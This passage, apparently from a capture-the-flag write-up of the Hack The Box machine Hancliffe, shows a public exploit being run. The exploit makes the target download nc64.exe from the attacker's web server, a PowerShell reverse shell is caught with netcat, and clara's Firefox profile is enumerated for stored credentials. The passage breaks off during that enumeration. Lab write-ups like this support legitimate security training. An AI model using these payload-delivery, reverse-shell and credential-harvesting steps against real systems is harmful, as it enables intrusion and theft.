 ```
$ proxychains python2 49587.py hancliffe.htb 10.10.14.74 nc64.exe
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[+] Connecting to target...
[+] Popping Start Menu
[+] Opening CMD
[+] *Super Fast Hacker Typing*
[+] Downloading Payload
[+] Done! Check listener?
```

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 20:28:21] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 20:28:21] "GET /nc64.exe HTTP/1.1" 200 -
```

As clara we can now pick up the user flag and continue our way to root.

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49840.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\clara> whoami
hancliffe\clara
PS C:\Users\clara> cat \users\clara\desktop\user.txt | measure -c

Lines Words Characters Property
----- ----- ---------- --------
                    32
```

# Root

## Firefox decrypt

Looking at clara's firefox profile we see that the `key4.db` isn't empty which looks promising.

```
PS C:\Users\clara> ls C:\users\clara\appdata\roaming\mozilla\firefox\profiles\ljftf853.default-release


    Directory: C:\users\clara\appdata\roaming\mozilla\firefox\profiles\ljftf853.default-release


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/26/2021  10:17 PM                bookmarkbackups
d-----         6/26/2021  10:18 PM                crashes
d-----         6/26/2021  10:32 PM                datareporting
d-----         6/26/2021  10:29 PM                features
d-----         6/26/2021  10:22 PM                gmp-gmpopenh264
d-----         6/26/2021  10:22 PM                gmp-widevinecdm
d-----         6/26/2021  10:17 PM                minidumps
```
